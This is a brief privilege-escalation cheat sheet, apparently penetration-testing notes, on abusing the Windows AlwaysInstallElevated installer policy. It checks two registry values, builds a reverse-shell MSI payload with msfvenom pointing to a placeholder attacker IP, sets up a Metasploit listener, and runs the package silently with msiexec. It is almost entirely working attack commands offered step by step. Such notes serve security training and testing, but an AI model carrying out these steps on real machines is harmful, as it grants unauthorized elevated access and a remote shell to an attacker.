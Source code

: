 `.msi` files are ***Windows Installer Files that typically run with the user's privilege level that starts it***. However, they can be set to run with elevated privileges from any user account (even unprivileged ones).

This method requires two registry values to be set.
```
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```
Note: To be able to exploit this vulnerability, ***both should be set***.

**Create a Payload:**
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi
```

**Start a Metasploit Handler to receive the Shell:**
```
use exploit/multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost IP
run
```

**Execute the malicious MSI:**
```
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```
